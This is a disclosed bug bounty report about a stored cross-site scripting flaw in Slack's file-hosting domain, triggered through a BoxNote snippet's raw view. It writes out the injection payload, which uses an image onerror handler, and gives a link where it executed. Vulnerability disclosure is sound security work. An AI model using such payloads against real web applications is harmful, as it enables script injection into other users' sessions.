# a stored xss issue in https://files.slack.com

## Report Details
- **Report ID**: 149011
- **URL**: https://hackerone.com/reports/149011
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-03T10:21:45.498Z
- **Disclosed**: 2017-06-25T00:03:08.954Z

## Reporter
- **Username**: securitythinker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
when making  a BoxNote snippet with this xss payload:
XSS") ;</script> <img src="<img src=search"/onerror=alert(document.domain)//"> "><marquee>

when snippet made: and use the "view raw"  xss payload will be executed

my ex: link where xss payload executed:
https://files.slack.com/files-pri/T027N7MK3-F1NCA92JF/XSS______script___img_src___img_src_search__onerror_alert__Xss__________marquee__boxnote.boxnote

that link will be executed in entire team mate  that could probably used in exploitation.

## Attachments
- boxnote1.png
- boxnote2.png
- boxnote3.png
